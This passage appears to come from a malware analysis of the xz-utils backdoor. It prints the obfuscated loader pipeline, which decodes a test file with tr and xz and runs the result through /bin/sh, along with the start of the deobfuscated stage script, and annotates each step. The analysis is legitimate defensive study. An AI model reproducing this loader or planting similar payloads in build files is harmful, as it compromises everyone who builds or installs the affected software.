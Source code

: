 ```
| tail -c +31233\
| tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377")\
| xz -F raw --lzma1 -dc\
| /bin/sh
####World####
```

```
(xz -dc $srcdir/tests/files/good-large_compressed.lzma\
| eval $i\
| tail -c +31233\
| tr "\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113" "\0-\377")\
| xz -F raw --lzma1 -dc\
| /bin/sh
```

- If OS is not based on Linux, terminate script
- Set `srcdir`
- Deofuscate `tests/files/good-large_compressed.lzma`

**3. `good-large_compressed.lzma`**

[test/files/good-large_compressed.lzma(Deobfuscated)](https://github.com/ymiwm/APT_Analysis/blob/main/Unknown/xz-utils_backdoor/script/good-large_compressed.sh)

```
P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"
C="pic_flag=\" $P\""
O="^pic_flag=\" -fPIC -DPIC\"$"
R="is_arch_extension_supported"
x="__get_cpuid("
p="good-large_compressed.lzma"
U="bad-3-corrupt_lzma2.xz"
```

- Set variables

```
[ ! $(uname)="Linux" ] && exit 0
```

- Check if the OS is based on Linux
- But there is no whitespace around `=` so that this line do nothing.

```
eval $zrKcVq
```

- Not declared variable

---

**if #1 - Running during configure in the tarball root directory**

```
if test -f config.status; then
    eval $zrKcSS
    eval `grep ^LD=\'\/ config.status`eval `grep ^CC=\' config.status`eval `grep ^GCC=\' config.status`eval `grep ^srcdir=\' config.status`eval `grep ^build=\'x86_64 config.status`eval `grep ^enable_shared=\'yes\' config.status`eval `grep ^enable_static=\' config.status`eval `grep ^gl_path_map=\' config.status`
```
